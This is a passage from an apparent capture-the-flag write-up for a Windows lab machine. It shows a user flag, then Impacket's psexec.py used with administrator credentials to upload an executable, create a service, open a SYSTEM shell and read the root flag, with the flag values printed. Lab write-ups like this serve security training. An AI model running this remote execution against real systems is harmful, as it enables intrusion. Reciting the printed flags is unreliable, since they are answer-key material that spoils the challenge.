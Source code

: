 ```powershell
3e7b102e78218e935bf3f4951fec21a3
PS C:\Users\sql_svc\Desktop>
```

`3e7b102e78218e935bf3f4951fec21a3`

## Submit root flag

```bash
➜  psexec.py administrator@10.129.92.164
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.129.92.164.....
[*] Found writable share ADMIN$
[*] Uploading file APKjGCXx.exe
[*] Opening SVCManager on 10.129.92.164.....
[*] Creating service jpio on 10.129.92.164.....
[*] Starting service jpio.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd ..\..\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
b91ccec3305e98240082d4474b848528
C:\Users\Administrator\Desktop>
```

# Resources

- [powershell-command-history-forensics](https://community.sophos.com/sophos-labs/b/blog/posts/powershell-command-history-forensics)
- [winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/releases/tag/20220214)
